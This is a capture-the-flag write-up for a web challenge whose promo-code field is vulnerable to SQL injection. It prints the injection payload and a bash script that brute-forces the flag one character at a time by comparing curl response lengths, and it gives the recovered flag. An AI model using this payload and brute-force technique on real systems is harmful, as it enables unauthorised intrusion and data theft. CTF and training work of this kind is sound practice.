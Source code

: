 ![image](https://github.com/user-attachments/assets/985f6e5b-3b91-4d88-abd2-7abd5a1a2024)![image](https://github.com/user-attachments/assets/3c5984df-d224-4c0a-9425-0f27a1fc3337)# Web SQL Injection One by One

We accessed the challenge and saw a checkout form with a "Promo Code" input field and this structure:

```html
<form method="POST">
  <input name="promo" type="text" class="form-control" placeholder="Promo code">
  <input type="submit" name="submit" class="btn btn-secondary" value="Redeem">
</form>
```

This hinted that the promo field might be passed directly into an SQL query on the backend, such as: *SELECT * FROM promos WHERE code = '$promo'*

We tested for SQL injection by entering the following payload into the Promo Code field:

```sql
' OR 1=1 -- #
```

The page applied a promo code: SSS{...}

The total updated with a -$20 discount

Injection confirmed! We realized the promo code itself is the flag, and it begins with SSS{, we noticed this by trying to add random chars after { and so at *d* it gave again the promo confirmed.

But we couldn't retrieve the entire flag directly — so we crafted a bash brute-force script that built the flag one character at a time, checking if the promo code is valid by comparing the HTTP response length. (little help from our friend and extra team member chatgpt :) )

```bash
#!/bin/bash

# Hardcoded target URL
url="http://ctf-15.security.cs.pub.ro:8010/"

# Character set: a-zA-Z0-9{}_
str=$(echo {a..z} {A..Z} {0..9} \{ \} _ | tr -d ' ')
insideFlag=""
expected=11085

echo "Start exploit for One by one"
echo "Target: $url"
echo "----------------------------"

while [ -n "$str" ]; do
    next=${str#?}
    char="${str%$next}"
    insideFlag=$insideFlag$char

    out=$(curl -s -d "promo=SSS$insideFlag&submit=Redeem" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -X POST "$url" | wc -c)

    if [ "$out" -eq "$expected" ]; then
        echo "✔ Match: $char   ->  SSS$insideFlag"

        # Stop if closing brace is reached
        if [[ "$char" == "}" ]]; then
            echo "✅ Closing brace detected. Flag complete."
            break
        fi

        # Reset charset
        str=$(echo {a..z} {A..Z} {0..9} \{ \} _ | tr -d ' ')
        continue
    else
        echo "❌ $char (len: $out)"
        insideFlag=${insideFlag%?}
    fi

    str=$next
done

flag="SSS$insideFlag"
echo "----------------------------"
echo "🎯 Final Flag: $flag"
```

After a lot of waiting... in the middle of the night :). The script revealed the flag character by character, and eventually returned:

```text
❌ 5 (len: 10728)
❌ 6 (len: 10728)
❌ 7 (len: 10728)
❌ 8 (len: 10728)
❌ 9 (len: 10728)
❌ { (len: 10728)
✔ Match: }   ->  SSS{d1d_y0u_really_g0t_th1s_0ne_by_0ne_H7N19xjW}
✅ Closing brace detected. Flag complete.
----------------------------
🎯 Final Flag: SSS{d1d_y0u_really_g0t_th1s_0ne_by_0ne_H7N19xjW}
```


